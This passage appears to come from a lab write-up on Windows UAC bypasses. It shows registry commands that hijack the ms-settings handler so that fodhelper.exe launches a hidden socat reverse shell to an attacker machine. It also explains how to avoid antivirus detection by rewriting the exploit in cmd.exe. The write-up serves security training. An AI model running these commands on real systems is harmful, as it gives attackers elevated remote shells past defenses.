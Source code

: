 Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit, without considering possible variations. If we translate our exploit from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

**Victim(cmd)**

<pre><code><strong>set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:$KALI:4445 EXEC:cmd.exe,pipes"
</strong>
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
</code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

## UAC: Environment Variable Expansion

Note: Be sure to disable Windows Defender for this task, or you may have some difficulties when running the exploit. Just run the provided shortcut on your machine's desktop to disable it.

To understand why we are picking Disk Cleanup, let's open the Task Scheduler and check the task's configuration:

**Victim(cmd)**

```
taskschd.msc
```


